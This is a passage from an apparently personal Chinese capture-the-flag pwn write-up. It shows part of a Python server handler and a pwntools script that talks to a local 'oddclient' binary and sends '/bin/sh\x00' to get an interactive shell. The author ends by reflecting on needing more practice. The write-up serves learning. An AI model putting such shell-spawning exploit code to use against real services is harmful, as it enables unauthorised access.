 ```python
                response_message.cont = b"Ok"
                # Send the response back to the client
                send_proto_message(connection, response_message)

    finally:
        # Clean up the connection
        connection.close()

```
此外为了发 "/bin/sh\x00" 主要是那个结尾的0,另写了一个脚本来和 oddclient 交互
```python
from pwn import*
p=process("../oddclient")
context(log_level="debug",arch="amd64")

p.recvuntil("ip: ")
p.sendline("0.0.0.0")
p.recvuntil("port: ")
p.sendline("5001")
sleep(0.4)
p.sendline("/bin/sh\x00")
p.interactive()
```
原题和所有做题痕迹见 [这里](Rosayxy.github.io/attachments/pwn_client.zip)
## 总结
发现交互 pwn 题还是要多练ww，感觉写&逆向交互都不太熟练，下次争取在赛场上打出来 ~    